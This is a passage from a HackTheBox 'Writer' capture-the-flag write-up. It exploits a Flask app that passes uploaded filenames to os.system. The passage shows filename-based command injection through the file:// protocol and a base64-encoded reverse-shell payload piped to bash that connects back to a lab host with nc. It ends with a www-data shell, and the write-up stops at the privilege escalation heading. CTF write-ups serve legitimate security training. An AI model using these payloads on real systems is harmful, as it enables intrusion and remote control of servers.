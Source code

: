 [Post Exploitation Analysis](#heading=h.ui1gvqou6arf)** **section). One that particularly stands out is the call of `os.system` on the uploaded filename. Before testing exploits on the target, the exploit was tested out locally to get a closer view as to how the program behaves. Copying the segment of interest, we can get a closer look at how the program treats file names:

`Code` 


```
import urllib
import os
from flask import request

local_filename, headers = urllib.request.urlretrieve('http://10.10.15.80/.jpg/1.jpg;sleep')
print("The local_filename is", local_filename)
os.system("mv {} {}.jpg".format(local_filename, local_filename))
```


Observe the argument of the `urllib.request.urlretrieve()` function. The user is in control of this argument. If a user were to upload a file called `1.jpg;sleep`, then the server will behave accordingly:


```

Response


```
The local_filename is /tmp/tmpen3ya1q1
```


However, when changing the argument to be `file:///home/0xd4y/business/hackthebox/medium/linux/writer/www/.jpg/1.jpg;sleep 10`, then command execution is performed. This works because the urllib function does not correctly rename the file to something safe in the instance that the argument is using the file protocol. Therefore, a file with a malicious name can be uploaded using the `image` parameter, and this file can then be referenced locally via the file protocol.


### Reverse Shell

After uploading a file with the name ``0xd4y.jpg;echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuODAgOTAwMSA+L3RtcC9m|base64 -d|bash``, it was referenced locally by putting the following in the image_url parameter: `file:///var/www/writer.htb/writer/static/img/0xd4y.jpg;`echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuODAgOTAwMSA+L3RtcC9m|base64 -d|bash``. A reverse shell was then returned as the www-data user:


```
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 59938
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```



## Privilege Escalation


### Kyle

```